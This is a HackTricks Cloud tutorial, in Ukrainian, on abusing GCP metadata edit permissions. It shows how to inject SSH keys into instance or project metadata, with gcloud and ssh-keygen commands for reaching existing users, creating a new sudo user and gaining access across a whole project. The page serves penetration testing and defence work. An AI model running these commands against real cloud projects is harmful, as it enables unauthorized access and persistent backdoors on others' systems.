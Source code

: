 # GCP - Додавання користувацьких метаданих SSH

{% hint style="success" %}
Вивчайте та практикуйте взлом AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Школа взлому HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте взлом GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Школа взлому HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

## Зміна метаданих <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Зміна метаданих на екземплярі може призвести до **значних ризиків безпеки, якщо зловмисник отримає необхідні дозволи**.

### **Включення SSH-ключів у користувацькі метадані**

На GCP, **системи Linux** часто виконують скрипти з [Python Linux Guest Environment для Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Критичним компонентом є [демон облікових записів](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), який призначений для **регулярної перевірки** кінцевої точки метаданих екземпляра на **оновлення авторизованих публічних SSH-ключів**.

Отже, якщо зловмисник може змінити користувацькі метадані, він може змусити демона знайти новий публічний ключ, який буде оброблений та **інтегрований у локальну систему**. Ключ буде доданий до файлу `~/.ssh/authorized_keys` існуючого користувача або, можливо, створення нового користувача з привілеями `sudo`, залежно від формату ключа. І зловмисник зможе скомпрометувати хост.

### **Додавання SSH-ключа до існуючого привілейованого користувача**

1. **Перегляд існуючих SSH-ключів на екземплярі:**
- Виконайте команду для опису екземпляра та його метаданих, щоб знайти існуючі SSH-ключі. Відповідний розділ у виводі буде під `metadata`, зокрема ключ `ssh-keys`.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- Зверніть увагу на формат SSH-ключів: перед ключем йде ім'я користувача, розділене двокрапкою.

2. **Підготовка текстового файлу для метаданих SSH-ключа:**
- Збережіть деталі імен користувачів та відповідних SSH-ключів у текстовий файл з назвою `meta.txt`. Це важливо для збереження існуючих ключів при додаванні нових.

3. **Створення нового SSH-ключа для цільового користувача (`alice` у цьому прикладі):**
- Використовуйте команду `ssh-keygen` для генерації нового SSH-ключа, переконавшись, що поле коментаря (`-C`) відповідає імені цільового користувача.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Додайте новий публічний ключ до `meta.txt`, наслідуючи формат, знайдений у метаданих екземпляра.

4. **Оновлення метаданих SSH-ключа екземпляра:**
- Застосуйте оновлені метадані SSH-ключа до екземпляра за допомогою команди `gcloud compute instances add-metadata`.
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Доступ до екземпляра за допомогою нового SSH-ключа:**
- Підключіться до екземпляра за допомогою SSH за допомогою нового ключа, отримуючи доступ до оболонки в контексті цільового користувача (`alice` у цьому прикладі).
```bash
ssh -i ./key alice@localhost
sudo id
``` 

### **Створення нового привілейованого користувача та додавання SSH-ключа**

Якщо не знайдено цікавого користувача, можливо створити нового, якому будуть надані привілеї `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### SSH ключі на рівні проекту <a href="#sshing-around" id="sshing-around"></a>

Можливо розширити доступ до SSH до кількох Віртуальних Машин (VMs) в хмарному середовищі, **застосовуючи SSH ключі на рівні проекту**. Цей підхід дозволяє доступ до SSH до будь-якого екземпляра всередині проекту, який не був явно заблокований для проектних ключів SSH. Ось узагальнений посібник:

1. **Застосування SSH ключів на рівні проекту:**
- Використовуйте команду `gcloud compute project-info add-metadata`, щоб додати SSH ключі з `meta.txt` до метаданих проекту. Ця дія гарантує, що SSH ключі будуть визнані на всіх VMs у проекті, якщо VM не має включеної опції "Блокувати проектні ключі SSH".
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH в екземпляри, використовуючи проектні ключі:**
- З проектними ключами SSH на місці, ви можете SSH в будь-який екземпляр всередині проекту. Екземпляри, які не блокують проектні ключі, приймуть SSH ключ, надаючи доступ.
- Прямий метод SSH в екземпляр полягає в використанні команди `gcloud compute ssh [INSTANCE]`. Ця команда використовує ваше поточне ім'я користувача та SSH ключі, встановлені на рівні проекту, для спроби доступу.


# References
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
